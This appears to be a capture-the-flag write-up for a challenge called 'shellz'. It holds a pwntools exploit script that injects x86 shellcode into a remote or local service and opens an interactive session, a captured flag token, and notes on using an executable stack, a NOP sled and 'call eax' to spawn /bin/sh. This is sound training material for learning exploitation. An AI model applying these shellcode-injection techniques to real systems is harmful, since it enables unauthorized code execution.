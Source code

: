 ```
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================


my_assembly = """
mov eax, 0x3
mov ebx, 1000
mov edx, 100

sub esp, 500
mov ecx, esp

int 0x80

mov eax, 0x4
mov ebx, 1
mov edx, 100

int 0x80
"""
my_shellcode = asm(my_assembly)
p.recvuntil(b'enter your shellcode:', drop=True)

p.sendline(my_shellcode)

p.interactive()

```

shellz
===================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1zaGVsbHoiLCJpcCI6IjE0NC4xMzYuMjguMzYiLCJzZXNzaW9uIjoiMmNmYjc0N2UtN2Y1NS00NDBkLTk0Y2YtNzJiYTI0ODRjYTZkIn0.pwBOOKZzTvmtNHStsBKFJERS-9blv0FiCE3etuDZ22w}
General overview of problems faced
------------------------------------------------------
Goal is to use assembly to run execve on /bin/sh
Stack is executable because init calls eax and the input is stored in eax which is 0x2000 or 8192 bytes long. Need to fill in excess space to overflow to return address. Used nopsled.
call eax is at address 0x08049019 in init().
There is an 8 byte extra gap, which when I read up on, probably means for allignment, so add it in. (add esp, 0x8)
